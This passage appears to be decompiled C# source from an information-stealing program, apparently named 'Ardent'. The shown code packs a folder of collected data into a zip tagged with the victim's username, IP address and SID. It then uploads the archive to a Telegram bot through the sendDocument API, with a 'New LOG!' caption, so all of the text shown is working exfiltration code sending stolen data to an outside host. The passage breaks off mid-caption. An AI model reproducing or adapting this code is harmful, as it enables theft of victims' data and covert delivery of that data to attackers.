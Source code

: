 ```csharp
					zipFile.CompressionLevel = 9;
					ZipFile zipFile2 = zipFile;
					string[] array = new string[6];
					array[0] = "\n<========================================>\nPC:";
					array[1] = Variables.username;
					array[2] = "\nIP: ";
					int num = 3;
					IPAddress ip = Variables.IP;
					array[num] = ((ip != null) ? ip.ToString() : null);
					array[4] = "\nSID: ";
					array[5] = Variables.SID;
					zipFile2.Comment = string.Concat(array);
					zipFile.AddDirectory(Variables.temp + Variables.username);
					zipFile.Save(Variables.temp + Variables.username + "@ardent.zip");
					Variables.isZipCompressionSuccess = "Success!";
				}
			}
			catch (Exception ex)
			{
				Variables.isZipCompressionSuccess = ex.Message;
				Console.WriteLine(ex.Message);
			}
		}

		// Token: 0x06000005 RID: 5 RVA: 0x00002274 File Offset: 0x00000474
		public static void UploadMultipart(byte[] file, string filename, string contentType, string url)
		{
			try
			{
				WebClient webClient = new WebClient();
				string text = "------------------------" + DateTime.Now.Ticks.ToString("x");
				webClient.Headers.Add("Content-Type", "multipart/form-data; boundary=" + text);
				string @string = webClient.Encoding.GetString(file);
				string text2 = string.Format("--{0}\r\nContent-Disposition: form-data; name=\"document\"; filename=\"{1}\"\r\nContent-Type: {2}\r\n\r\n{3}\r\n--{0}--\r\n", new object[] { text, filename, contentType, @string });
				byte[] bytes = webClient.Encoding.GetBytes(text2);
				webClient.UploadData(url, "POST", bytes);
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex.Message);
			}
		}

		// Token: 0x06000006 RID: 6 RVA: 0x00002340 File Offset: 0x00000540
		public static void Dispatch(string ID)
		{
			string text = Variables.temp + Variables.username + "@ardent.zip";
			bool flag = !File.Exists(text);
			if (!flag)
			{
				byte[] array = File.ReadAllBytes(text);
				string[] array2 = new string[5];
				array2[0] = "https://api.telegram.org/bot";
				array2[1] = Variables.Token;
				array2[2] = "/sendDocument?chat_id=";
				array2[3] = ID;
				int num = 4;
				string[] array3 = new string[37];
				array3[0] = "&caption=❗\ufe0f New LOG! <3\n\n\ud83d\udd3a PC: ";
				array3[1] = Variables.username;
```